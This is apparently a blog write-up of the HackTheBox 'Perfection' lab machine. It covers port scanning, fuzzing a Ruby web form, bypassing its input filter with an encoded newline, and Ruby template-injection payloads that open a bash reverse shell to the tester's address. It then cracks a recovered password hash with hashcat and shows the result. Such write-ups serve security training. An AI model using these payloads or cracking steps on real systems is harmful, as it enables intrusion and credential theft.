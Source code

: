 ```yaml
---
title:  HTB - Perfection
date: 2024-02-02 12:17:34 -0400
categories: [hackthebox , Perfection]
tags: [HackTheBox, SSTI, sudo, nmap, hashcat ]
image:
  path: /assets/img/post/perfection/Perfection.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - Perfection.
---
```


## Box Info

| Name                  | Perfection       | 
| :-------------------- | ---------------: |
| Release Date          | 02 Mar, 2024     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.11.253 -oG allPorts
nmap -sCV -p 22,80 10.10.11.253 -oN targeted
```

![Image](/assets/img/post/perfection/0.png)

#### Resolution DNS

```bash
echo "10.10.11.253 perfection.htb" | sudo tee -a /etc/hosts
```

#### Technology

```text
whatweb http://perfection.htb
```

![Image](/assets/img/post/perfection/1.png)

## Web

![Image](/assets/img/post/perfection/2.png)

The web is powered by WEBrick version 1.7.0, `WEBrick is a Ruby library providing simple HTTP web servers`{: filepath}

![Image](/assets/img/post/perfection/3.png)

Well, if you intercept the request u can see something like this `category1=literature` but if u try to this `category1=$` get a redirect with a text "Malicious text blocked".

We can do  with ffuf an scan for get a list of blocked characters.

```bash
ffuf -u http://10.10.11.253/weighted-grade-calc -d 'category1=FUZZ&grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

But what happens if a url encode the input?

```text
category1= poop%0aFUZZ &grade1=90&weight1=30&category2=poop&grade2=100&weight2=50&category3=poop&grade3=100&weight3=20&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0' -w /opt/SecLists/Fuzzing/alphanum-case-extra.txt -mr Malicious
```

`%0a`— represents a newline character, used to `bypass input validation`.

The first thing I think is that there may be an SSTI.
We go look to in payloadallthethings if there is something for ruby

[PaylaodsAllTheThings-Ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby---basic-injections)

![Image](/assets/img/post/perfection/pay.png)

`hURL` _to encode and decode payloads showcases the manipulation of data to exploit web application vulnerabilities. The payload crafted for the Weighted Grade Calculator application is designed to execute a reverse shell command, taking advantage of any potential server-side code execution vulnerabilities_

```shell
hURL -B "bash -i >& /dev/tcp/10.10.14.78/7777 0>&1" (base64)
```

```shell
hURL -U "{_stringbase64_}" (URLencoded)
```

![Image](/assets/img/post/perfection/5.png)

#### Payload
```text
category1=poop%0a<%25=system("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC40OC83Nzc3IDA%2BJjE%3D|+base64+-d+|+bash");%25>1
```

![Image](/assets/img/post/perfection/6.png)

Or use the payload `<%= IO.popen('id').readlines() %>` and urlencoded.

![Image](/assets/img/post/perfection/IO.png)

[Hacktricks-SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```bash
<%= IO.popen('bash -i >& /dev/tcp/10.10.14.78/7777 0>&1').readlines() %> 
```

![Image](/assets/img/post/perfection/7.png)

Enumerating found the file .db and got the credentials.

_A string is any sequence of 4 or more printable characters .db_

![Image](/assets/img/post/perfection/8.png)

## Privilege Escalation

![Image](/assets/img/post/perfection/9.png)

### Hashcat

```bash
hashcat -m 1400 hash.txt -a 3 "susan_nasus_?d?d?d?d?d?d?d?d"
```

![Image](/assets/img/post/perfection/10.png)

![Image](/assets/img/post/perfection/11.png)

```text
susan_nasus_413759210
```

![Image](/assets/img/post/perfection/12.png)

Root